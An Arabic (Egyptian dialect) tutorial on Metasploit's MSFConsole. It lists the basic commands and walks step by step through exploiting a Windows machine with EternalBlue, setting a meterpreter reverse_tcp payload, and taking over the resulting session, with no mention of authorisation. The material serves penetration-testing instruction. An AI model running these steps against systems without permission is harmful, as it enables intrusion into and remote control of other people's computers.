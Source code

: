 ### **🔹 واجهة Metasploit: MSFConsole (سطر الأوامر) - شرح مبسط وعميق**

#### **📌 ما هو MSFConsole؟**

**MSFConsole** هو الواجهة الأساسية للتحكم في Metasploit، وهو عبارة عن **سطر أوامر (CLI)** يسمح لك بتنفيذ جميع وظائف Metasploit بسهولة.

✳️ **باختصار:**

- **هو المحطة الرئيسية** اللي بتستخدمها لاختبار الاختراق.
- **بيسمح لك** بالبحث عن الثغرات، إعداد الهجمات، تنفيذها، والتحكم في الجلسات المخترقة.
- بيتميز **بسهولة التنقل** فيه ووجود أوامر قوية لتنفيذ أي نوع من الهجمات.

---

### **💡 الخلاصة بالمصري:**

**MSFConsole** = هو **المكان اللي بتكتب فيه الأوامر** عشان تنفذ هجومك باستخدام Metasploit، زي الـ Terminal كده بس مخصص للاختراق.

---

## **🛠️ مميزات MSFConsole**

🔹 فيه **أوامر متكاملة** للتحكم في كل أدوات Metasploit.  
🔹 بيتيح لك **البحث عن الثغرات والـ Exploits بسهولة**.  
🔹 تقدر **تعدل الإعدادات وتشغل الهجمات وتتحكم في الـ Sessions**.  
🔹 فيه دعم لـ **Autocomplete** عشان تسهل الكتابة وتسرّع استخدام الأوامر.

---

### **💡 الخلاصة بالمصري:**

- **MSFConsole مش بس مكان تكتب فيه أوامر، هو مركز القيادة بتاع Metasploit.**
- تقدر تدور على ثغرات، تحضر الهجوم، تنفذه، وتتحكم في الأجهزة اللي اخترقتها.

---

## **🔹 أوامر أساسية في MSFConsole**

(دي أهم الأوامر اللي هتحتاجها، ومعاها وظيفتها)

|**الأمر**|**الوظيفة**|
|---|---|
|`msfconsole`|تشغيل Metasploit|
|`search exploit_name`|البحث عن استغلال معين (مثلاً `search ftp`)|
|`use exploit/path`|استخدام Exploit معين (مثلاً `use exploit/windows/smb/ms17_010_eternalblue`)|
|`show options`|عرض الإعدادات المطلوبة للهجوم|
|`set RHOSTS target_ip`|تحديد هدف الهجوم (مثلاً `set RHOSTS 192.168.1.10`)|
|`set LHOST attacker_ip`|تحديد IP المهاجم لاستقبال الاتصال العكسي|
|`set PAYLOAD payload_type`|اختيار نوع الـ Payload المستخدم (مثلاً `set PAYLOAD windows/meterpreter/reverse_tcp`)|
|`exploit`|تنفيذ الهجوم بعد ضبط الإعدادات|
|`sessions -l`|عرض الأجهزة المخترقة والتحكم فيها|
|`sessions -i session_id`|الدخول إلى جلسة مخترقة (مثلاً `sessions -i 1`)|

---

### **💡 الخلاصة بالمصري:**

- هتشغل MSFConsole بالأمر `msfconsole`.
- هتبحث عن ثغرة باستخدام `search`.
- هتستخدم ثغرة معينة بأمر `use`.
- هتحدد الهدف بـ `set RHOSTS`.
- هتشغل الهجوم بـ `exploit`.
- لو الاختراق نجح، هتتحكم في الجهاز المخترق بـ `sessions`.

---

## **🎯 خطوات عملية لاستخدام MSFConsole في اختراق جهاز**

🚀 **الخطوة 1:** شغل Metasploit

```bash
msfconsole
```

🚀 **الخطوة 2:** ابحث عن ثغرة مناسبة

```bash
search smb
```

🚀 **الخطوة 3:** اختار الثغرة اللي هتستخدمها

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

🚀 **الخطوة 4:** اعرض الإعدادات المطلوبة

```bash
show options
```

🚀 **الخطوة 5:** حدد الهدف (IP الجهاز اللي عايز تخترقه)

```bash
set RHOSTS 192.168.1.10
```

🚀 **الخطوة 6:** حدد الجهاز اللي هيستقبل الاتصال العكسي (جهازك)

```bash
set LHOST 192.168.1.50
```

🚀 **الخطوة 7:** اختار الـ Payload اللي هتستخدمه

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

🚀 **الخطوة 8:** نفذ الهجوم

```bash
exploit
```

🚀 **الخطوة 9:** لو الاختراق نجح، هتتحكم في الجهاز المخترق

```bash
sessions -l   # لعرض الجلسات المفتوحة
sessions -i 1 # الدخول إلى الجلسة رقم 1
```

---

### **💡 الخلاصة بالمصري:**

1️⃣ شغل Metasploit بـ `msfconsole`.  
2️⃣ دور على ثغرة مناسبة بـ `search`.  
3️⃣ استخدمها بـ `use`.  
4️⃣ حدد هدفك بـ `set RHOSTS`.  
5️⃣ حدد نفسك كمهاجم بـ `set LHOST`.  
6️⃣ اختار نوع الاختراق بـ `set PAYLOAD`.  
7️⃣ نفذ الهجوم بـ `exploit`.  
8️⃣ لو الاختراق نجح، استخدم `sessions` للتحكم في الجهاز.

---

💡 **لو عايز تطبيق عملي أو شرح نقطة معينة بالتفصيل، قولي ونكمل مع بعض! 🚀**